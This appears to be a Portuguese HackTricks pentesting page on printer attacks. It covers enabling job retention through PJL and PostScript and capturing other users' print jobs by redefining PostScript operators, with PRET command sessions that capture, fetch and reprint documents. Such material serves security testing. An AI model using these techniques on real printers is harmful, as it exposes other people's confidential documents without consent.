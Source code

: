 <details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>


# Retenção de Trabalhos de Impressão

Algumas impressoras têm trabalhos de impressão armazenados acessíveis pelo servidor web. Geralmente, no entanto, a retenção de trabalhos deve ser explicitamente ativada para um determinado trabalho de impressão e pode ser feita usando comandos PJL padrão ou código PostScript proprietário. Os trabalhos são então mantidos na memória e podem ser reimpressos a partir do painel de controle.

## PJL

A retenção legítima de trabalhos pode ser habilitada para o documento atual definindo a variável PJL HOLD conforme mostrado abaixo:
```
@PJL SET HOLD=ON
[actual data to be printed follows]
```
Trabalhos em espera são mantidos na memória e podem ser reimpressos a partir do painel de controle da impressora. Esta funcionalidade é suportada por várias impressoras, no entanto, parece que apenas alguns dispositivos Epson permitem que a retenção permanente de trabalhos seja configurada usando `@PJL DEFAULT HOLD=ON`.

**Como testar para este ataque?**

Use o comando `hold` do [**PRET**](https://github.com/RUB-NDS/PRET) no modo pjl para verificar se a retenção permanente de trabalhos pode ser configurada:
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```
## PostScript

PostScript oferece funcionalidades similares que, no entanto, são específicas do modelo e do fabricante. Para a série HP LaserJet 4k e várias impressoras Kyocera, a retenção de trabalhos pode ser ativada ao adicionar os seguintes comandos no início de um documento PostScript:
```
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```
Enquanto é teoricamente possível habilitar permanentemente a retenção de trabalhos PostScript usando o operador [startjob ](./#postscript-ps), essa configuração é explicitamente redefinida pelo CUPS no início de cada trabalho de impressão usando `<< /Collate false >> setpagedevice`. No entanto, para contornar esse mecanismo de proteção, o atacante pode redefinir permanentemente o operador `setpagedevice` para que não tenha efeito algum.

**Como testar esse ataque?**

Use o comando `hold` do [**PRET** ](https://github.com/RUB-NDS/PRET) no modo ps:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```
# Captura de Trabalho

É possível, embora incomum, ativar a retenção de trabalho no diálogo de impressão, como discutido acima. Com PostScript, no entanto, tem-se acesso completo ao trabalho de impressão atual e, com o operador [startjob](./#postscript-ps), é até possível sair do loop do servidor e acessar trabalhos futuros. Tal funcionalidade tem o potencial de capturar todos os documentos se PostScript for usado como um driver de impressora.

## PostScript

Com a capacidade de se conectar a operadores PostScript arbitrários, é possível manipular e acessar trabalhos de impressão de terceiros. Para **analisar o fluxo de dados real enviado para a impressora**, pode-se aplicar um recurso muito interessante da linguagem PostScript: ler seu próprio código de programa como dados usando o operador `currentfile`. Dessa forma, todo o fluxo de dados a ser processado pelo interpretador PostScript pode ser acessado pela leitura e armazenado em um arquivo no dispositivo de impressão. Se a impressora não oferecer acesso ao sistema de arquivos, **documentos capturados podem ser armazenados na memória**, por exemplo, dentro de dicionários PostScript permanentes. \
Um problema prático é decidir **qual operador deve ser interceptado**, pois não se tem acesso ao fluxo de dados até que esse operador seja processado pelo interpretador PostScript. Como o atacante deseja capturar trabalhos de impressão desde o início, o **operador redefinido deve ser o primeiro operador** contido no documento PostScript. Felizmente, todos os documentos impressos com CUPS têm uma estrutura fixa que começa com `currentfile /ASCII85Decode filter /LZWDecode filter cvx exec`. Com base na suposição de tal estrutura fixa, o atacante pode capturar documentos desde o início e executar (ou seja, imprimir) o arquivo posteriormente. Para sistemas de impressão **diferentes de CUPS**, esse ataque também deve ser possível, mas **os operadores precisam ser adaptados**. Observe que o cabeçalho PostScript, que geralmente inclui tamanho de mídia, nomes de usuário e de trabalho, não pode ser capturado usando este método porque primeiro nos conectamos no início do documento real. Outra estratégia genérica para se conectar no início de cada trabalho de impressão é definir o parâmetro do sistema `BeginPage`, se suportado pela impressora (a maioria das impressoras suporta). Essa vulnerabilidade provavelmente está presente em dispositivos de impressão há décadas, pois apenas construções de linguagem definidas pelo padrão PostScript são exploradas.

Use o comando `capture` do [**PRET**](https://github.com/RUB-NDS/PRET) no modo ps:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture
Print job operations:  capture <operation>
capture start   - Record future print jobs.
capture stop    - End capturing print jobs.
capture list    - Show captured print jobs.
capture fetch   - Save captured print jobs.
capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```
Agora, imprima documentos arbitrários (certifique-se de que o PRET esteja desconectado para não bloquear o canal de impressão). Posteriormente, você pode listar, buscar ou reimprimir documentos capturados:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -
Jan 25 18:40  170K  -              -                       -
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received.
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```
<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
